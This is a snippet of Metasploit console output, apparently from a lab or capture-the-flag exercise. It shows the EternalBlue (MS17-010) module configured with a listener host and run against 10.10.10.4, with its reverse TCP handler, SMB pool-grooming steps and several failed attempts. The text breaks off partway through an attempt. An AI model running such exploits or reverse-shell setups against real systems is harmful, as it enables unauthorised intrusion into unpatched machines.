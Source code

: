 ```c
RHOSTS => 10.10.10.4
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.8
LHOST => 10.10.14.8
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.8:4444 
[*] 10.10.10.4:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.4:445        - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.4:445 - The target is vulnerable.
[*] 10.10.10.4:445 - Connecting to target for exploitation.
[+] 10.10.10.4:445 - Connection established for exploitation.
[+] 10.10.10.4:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.4:445 - CORE raw buffer dump (11 bytes)
[*] 10.10.10.4:445 - 0x00000000  57 69 6e 64 6f 77 73 20 35 2e 31                 Windows 5.1     
[+] 10.10.10.4:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.4:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.4:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.4:445 - Starting non-paged pool grooming
[+] 10.10.10.4:445 - Sending SMBv2 buffers
[+] 10.10.10.4:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.4:445 - Sending final SMBv2 buffers.
[*] 10.10.10.4:445 - Sending last fragment of exploit packet!
[*] 10.10.10.4:445 - Receiving response from exploit packet
[+] 10.10.10.4:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.4:445 - Sending egg to corrupted connection.
[*] 10.10.10.4:445 - Triggering free of corrupted buffer.
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.10.4:445 - Connecting to target for exploitation.
[+] 10.10.10.4:445 - Connection established for exploitation.
[+] 10.10.10.4:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.4:445 - CORE raw buffer dump (11 bytes)
[*] 10.10.10.4:445 - 0x00000000  57 69 6e 64 6f 77 73 20 35 2e 31                 Windows 5.1     
[+] 10.10.10.4:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.4:445 - Trying exploit with 17 Groom Allocations.
[*] 10.10.10.4:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.4:445 - Starting non-paged pool grooming
[+] 10.10.10.4:445 - Sending SMBv2 buffers
[+] 10.10.10.4:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.4:445 - Sending final SMBv2 buffers.
[*] 10.10.10.4:445 - Sending last fragment of exploit packet!
[*] 10.10.10.4:445 - Receiving response from exploit packet
[+] 10.10.10.4:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.4:445 - Sending egg to corrupted connection.
[*] 10.10.10.4:445 - Triggering free of corrupted buffer.
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.10.10.4:445 - Connecting to target for exploitation.
[+] 10.10.10.4:445 - Connection established for exploitation.
[+] 10.10.10.4:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.4:445 - CORE raw buffer dump (11 bytes)
[*] 10.10.10.4:445 - 0x00000000  57 69 6e 64 6f 77 73 20 35 2e 31                 Windows 5.1     
[+] 10.10.10.4:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.4:445 - Trying exploit with 22 Groom Allocations.
[*] 10.10.10.4:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.4:445 - Starting non-paged pool grooming
[+] 10.10.10.4:445 - Sending SMBv2 buffers
[+] 10.10.10.4:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.4:445 - Sending final SMBv2 buffers.
[*] 10.10.10.4:445 - Sending last fragment of exploit packet!
```